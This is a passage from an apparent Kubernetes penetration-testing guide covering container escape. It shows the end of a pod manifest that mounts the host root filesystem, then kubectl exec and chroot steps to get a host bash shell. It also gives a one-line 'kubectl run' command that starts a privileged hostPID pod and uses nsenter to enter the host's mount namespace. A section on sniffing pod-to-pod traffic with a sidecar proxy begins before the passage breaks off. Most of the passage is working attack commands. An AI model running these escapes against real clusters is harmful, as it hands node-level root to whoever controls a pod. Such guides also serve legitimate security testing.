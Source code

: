         volumeMounts:
          - name: rootfs
            mountPath: /rootfs
      restartPolicy: Always
      volumes:
        - name: rootfs
          hostPath:
            path: /
    EOF
    ```
2.  Create the `pod` that mounts the host filesystem's `/` at `/rootfs` inside the container.

    ```
    kubectl apply -f hostpath.yml
    ```
3.  Use `kubectl exec` to get a shell inside the `hostpath` `pod` in the `default` `namespace`.

    ```
    kubectl exec -it hostpath /bin/sh
    ```
4.  Use the `chroot` command to switch the filesystem root to the `/rootfs` of the container and run a `bash` shell.

    ```
    chroot /rootfs /bin/bash
    ```

### Pod Creation & Escape -  Get into root pid ns

From [this tweet](https://twitter.com/mauilion/status/1129468485480751104) you can find a way to escape from the pod and get inside the root ns

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

### Sniffing **with a sidecar proxy app**

By default there isn't any encryption in the communication between pods .Mutual authentication, two-way, pod to pod.

#### Create a sidecar proxy app <a href="#create-a-sidecar-proxy-app" id="create-a-sidecar-proxy-app"></a>

Create your .yaml

```bash
kubectl run app --image=bash --comand -oyaml --dry-run=client > <appName.yaml> -- sh -c 'ping google.com'
```

Edit your .yaml and add the uncomment lines:
